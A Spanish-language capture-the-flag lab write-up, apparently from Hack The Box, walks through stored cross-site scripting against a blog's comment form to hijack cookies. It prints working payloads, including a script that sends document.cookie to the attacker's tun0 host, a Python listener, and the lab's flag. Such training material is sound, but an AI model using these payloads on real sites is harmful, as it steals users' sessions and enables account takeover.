

# Laboratorio 🤹‍♀️

1. Vamos a la página web y nos dirijimos a la sección de **`Comentarios`**
* **URL:** `http://<IP>/assessment/index.php/2021/06/11/welcome-to-security-blog/`

<p align="center">
    
</p>

---

2. Como tenemos que llevar a cabo un **`Cookie Hijacking`** pondremos el siguiente payload `<script src=http://<tun0 IP>/[Nombre de Campo]></script>`, ej. Cambiamos `[Nombre de Campo]` por **`comment`** o **`website`**, así sabremos cual campo se vulnerable en base a los **logs** de nuestro servidor con **Python** `python3 -m http.server 80`
---
3. El **campo vulnerable** es **`Website`**, creamos un archivo **script.js**

* **script.js**
```
new Image().src='http://<tun0 IP>/index.php?c='+document.cookie;
```

* Creamos un servidor con **Python** **`python3 -m http.server`** 
---
4. **Posteamos nuestro comentario** con el payload **`<script src=http://<tun0 IP>/script.js></script>`** en el campo **Website**
---
5. En los **logs** de nuestro servidor veremos la **flag** 🏴 `flag=HTB{cr055_5173_5cr1p71n6_n1nj4}`